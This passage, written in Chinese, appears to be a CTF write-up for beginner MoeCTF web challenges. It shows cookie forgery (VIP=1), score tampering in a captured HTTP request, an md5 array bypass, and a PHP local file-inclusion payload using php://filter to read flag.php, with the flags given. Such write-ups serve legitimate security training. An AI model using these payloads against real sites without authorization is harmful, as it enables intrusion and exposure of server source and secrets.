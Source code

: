    hackbar传参

   flag:moectf{POST_1s_an_1mp0rtant_m3th0d!}

3. 指北-Cookie

   > You are not VIP,I will give flag to VIP!

   F12看到cookie里面VIP=0

   hackbar传VIP=1出flag

   flag:moectf{C00kie_1s_sw33t!}

   

4. 2048

   胡乱玩一把发现要50000+（建议把分数限制改成114514），burp抓包如下

   改score为50001,出flag

   flag:moectf{2048_1s_intere5t1ng!}

   > GET /flag.php?score=50001 HTTP/1.1
   > Host: 47.93.215.154:5001
   > User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
   > Accept: */*
   > Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   > Accept-Encoding: gzip, deflate
   > Connection: close
   > Referer: http://47.93.215.154:5001/
   > Cookie: VIP=1

5. Web-Inc

   md5数组绕过

   flag:写完WP去打LOL去了，不想再出flag了

   > 刚学习web的vk听说有两种HTTP请求方式叫**get**和**post**,不知道学弟学妹们学会了吗？ 增加了一个叫**md5**的东西，想想怎么绕过它吧！！！！

6. ezinclude

   ```php
   <?php
   error_reporting(0);
   if(isset($_GET['file'])){
       $file = $_GET['file'];
       include($file);
   }else{
       highlight_file(__FILE__);
   } 
   ```

   文件包含漏洞

   payload:?file=php://filter/convert.base64-encode/resource=flag.php

   > PD8kZmxhZz0ibW9lY3Rme3hkc2VjNmFzZGdhczdhaGZzZmF4Y3pjfSI7Pz4=

   flag:moectf{xdsec6asdgas7ahfsfaxczc}
